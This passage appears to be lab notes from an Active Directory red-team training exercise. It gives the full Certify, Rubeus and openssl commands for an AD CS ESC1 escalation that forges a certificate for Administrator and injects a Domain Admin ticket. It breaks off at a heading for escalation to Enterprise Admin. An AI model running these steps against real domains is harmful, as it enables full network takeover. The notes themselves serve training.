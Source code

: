 Enumerate vulnerable templates:
```powershell
Certify.exe find /vulnerable
```

Common requirements/misconfigurations for all the Escalations:
```
- CA grants normal/low-privileged users enrollment rights
- Manager approval is disabled
- Authorization signatures are not required
- The target template grants normal/low-privileged users enrollment rights
```

## Escalation

- In techcorp, the user pawadmin has enrollment rights to a template **-ForAdminsofPrivilegedAccessWorkstations**
- The template has **ENROLLEE_SUPPLIES_SUBJECT** value for msPKI-Certificates-Name-Flag. (**ESC1**)
- This means pawadmin can request certificate for ANY user.

Note that this does not show up when we enumerate vulnerable templates in Certify. Use:
```powershell
Certify.exe find
Certify.exe find /enrolleeSuppliesSubject
```

- We have the certificate of pawadmin that we extracted from us-jump. (**THEFT4**)

Use the certificate to request a TGT for pawadmin and inject it:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:pawadmin /certificate:C:\AD\Tools\pawadmin.pfx /password:SecretPass@123 /nowrap /ptt
```


## Escalation to DA

Request a certificate for DA!
```powershell
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```

Convert from cert.pem to pfx:
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx
```

Request DA TGT and inject it:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:SecretPass@123 /nowrap /ptt
```


## Escalation to EA
